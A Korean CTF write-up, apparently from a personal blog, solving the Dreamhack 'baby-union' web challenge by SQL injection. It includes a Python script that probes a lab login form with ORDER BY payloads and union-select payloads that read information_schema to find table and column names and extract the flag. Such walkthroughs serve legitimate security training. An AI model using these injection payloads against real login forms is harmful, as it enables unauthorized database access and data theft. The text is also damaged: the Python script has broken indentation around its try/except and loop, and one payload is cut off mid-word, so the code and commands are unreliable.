 ```yaml
---
layout: post
title: "[드림핵][Lv.1] baby-union 문제 풀이"
date:   2025-07-16 21:00:00 +0900
categories: [CTF & Writeups]
tags: [wargame, web, union-sqli]
---
```



## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: baby-union
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵  워게임](http://dreamhack.io/wargame/challenges/984)



## 2. 문제 분석 (Problem Analysis)
**문제 설명**
- 로그인 시 계정의 정보가 출력되는 웹 서비스이다.
- SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 `init.sql` 파일의 테이블명과 컬럼명은 실제 이름과 다릅니다.

```sql
CREATE TABLE fake_table_name (
	idx int auto_increment primary key,
	fake_col1 varchar(128) not null,
	fake_col2 varchar(128) not null,
	fake_col3 varchar(128) not null,
	fake_col4 varchar(128) not null

);
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

### 2-1. 컬럼 수 찾는 파이썬 코드

```python
import requests
import warnings


# SSL 경고 무시 (테스트 환경에서만 사용)
warnings.filterwarnings('ignore', message='Unverified HTTPS request')
def find_sql_column_count(target_url):

	"""
	POST 기반 SQL Injection에서 ORDER BY를 사용해 컬럼 수를 찾습니다.
	uid와 upw 파라미터를 모두 전송 한다.
	"""

	print("[-] 컬럼 수 확인을 시작합니다...")

	# 확인할 최대 컬럼 수
	max_columns = 25

	for i in range(1, max_columns + 1):
		# uid에 주입할 페이로드
		payload = f"' OR 1=1 ORDER BY {i}#"

		# POST 요청으로 보낼 데이터. upw에 임의의 값을 넣어줘야 합니다.
		post_data = {
			'uid': payload,
			'upw': 'dummy_password'

		}

		try:
			# POST 요청 전송. verify=False는 HTTPS 인증서 검증을 건너뜁니다.
			response = requests.post(target_url, data=post_data, timeout=5, verify=False)

  

			# HTTP 500 에러가 발생하면 컬럼 수가 초과된 것입니다.
			# 웹 애플리케이션의 반응에 따라 이 조건은 달라질 수 있습니다.

			if response.status_code == 500:
				column_count = i - 1
				print(f"\n[+] 컬럼 수를 찾았습니다: {column_count}개")
				return column_count

			else:

				print(f"[*] {i}개 컬럼 확인... (상태 코드: {response.status_code}, 정상 응답)")

			except requests.exceptions.RequestException as e:

				print(f"[!] 요청 중 오류 발생: {e}")
				return None

		print(f"[-] {max_columns}개까지 시도했지만 컬럼 수를 찾지 못했습니다.")
		return None

if __name__ == '__main__':
	# 실제 공격 대상 URL로 변경해야 합니다.
	URL = "http://host3.dreamhack.games:19347/" # 대상 주소로 변경하세요.

	# 함수 실행
	find_sql_column_count(URL)    

```

### 2-2. 문제 해설
- 이 문제는 파이썬 코드보다 sql 쿼리를 보는게 핵심이다.
- 이 문제에서 요구하는건 공격자가 컬럼 수를 찾아서, union 인젝션을 사용하여 테이블명과 컬럼명 찾고, flag 값을 얻어 낼 수 있느냐 라는 문제이다.
- 그래서 이 문제는 크게 3가지 단계로 문제를 접근해야 하다.


#### (1) 테이블의 컬럼 수는 몇개 있고, 어떤 컬럼을 출력하는지 알아야 한다.
- 처음에 컬럼 수를 확인하기 위해서 나 처럼 파이썬 코드를 작성하기도 할 수 있지만 일단 간단한 테스트는 아래와 같은 페이로드이다.

**[페이로드]**
~~~sql
' union select 1#
' union select 1,2#
' union select 1,2,3#
' union select 1,2,3,4#
~~~

---

- 이렇게 작성 할 때 주의해야하는거 upw 입력 폼에서도 아무 값을 넣어줘야 한다는 것이다.
- 그리고 위 페이로드 처럼 하나씩 증가하면서 컬럼 수의 수를 찾으면 된다.
- 이렇게 컬럼의 수를 찾으면 어떤 컬럼 위치에서 출력이 되는지 파악하면 된다.
- 위 문제에서는 2, 4번 컬럼에 출력이 되는 것이 확인 되었다.


#### (2) 테이블 명을 찾아야 한다.
- 이제 컬럼의 수를 알았으니 flag가 있는 테이블명을 찾아야 한다.
- 위 문제에서는 테이블명을 제대로 알려주지 않았기 때문에 테이블명을 찾아야 하는데, mysql 서버 내에는 DB의 메타 정보를 모아둔 DB가 있다.
- 우리는 이걸 이용해서 테이블명을 찾아야 한다.
- mysqli 메타정보 확인하는 건 매우 중요하기 때문에 알아둬야 하겠지만, 추후 나중에 SQL 인젝션 관련 정리를 하면 이 내용을 설명하겠다.
- 지금은 일단 테이블 명을 찾는 페이로드를 작성해보면

**[테이블명을 찾는 페이로드]**
~~~sql
' union select 1,group_concat(table_name),3, 4 from information_schema.tables where table_schema=database()#
~~~

- 위의 명령을 치면 두번째 컬럼에 현재 데이터베이스의 테이블명을 모두 출력해주는데 출력 되는 테이블은 users, onlyflag 이다.
- users 테이블명은 이미 init.sql 를 통해 확인 되었고, 우리가 찾는 flag는 onlyflag 테이블이 있는 것으로 예상 된다.


#### (3) 테이블명을 이용하여 컬럼을 찾아야 한다.
- 우리는 2-2에서 테이블을 확인 했다.
- 이제 찾은 테이블명을 통해 컬럼을 찾아보자
- 컬럼명을 찾는 것 역시 mysql 메타데이터의 DB 정보를 통해서 찾을 수 있다.

**[컬럼명을 찾는 페이로드]**
~~~sql
up_concat(column_name),3, 4 from information_schema.columns where table_name='onlyflag'#
~~~

- 위의 페이로드를 통해서 olnyflag 테이블 안에 idx,sname,svalue,sflag,sclose 라는 컬럼이 있다는 것을 확인 할 수 있었다.


- 이제 init.sql 파일을 열어서 다시 확인 해보면 

**[init.sql 부분]**
~~~sql
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
~~~

- flag 값은 fake_col2, 3,4 컬럼을 합치면 된다는 것을 알았다. 



#### (4) 컬럼을 활용해 flag 확인
- 테이블명과 컬럼명을 확인 했으니 이제 값을 찾는건 단순하다.

**[flag 값 확인]**
~~~sql
' union select 1, (SELECT svalue FROM onlyflag), 3, 4#
' union select 1, (SELECT sflag FROM onlyflag), 3, 4#
' union select 1, (SELECT sclose FROM onlyflag), 3, 4#
~~~

- 이렇게 두 번째 컬럼 이용해서 하나씩 추출 해도 되고, 2, 4번 컬럼을 통해서 한번에 두개의 값을 추출해도 된다.
- 이렇게 추출한 값을 하나로 뭉치면 하나의 flag 값이 된다.

---

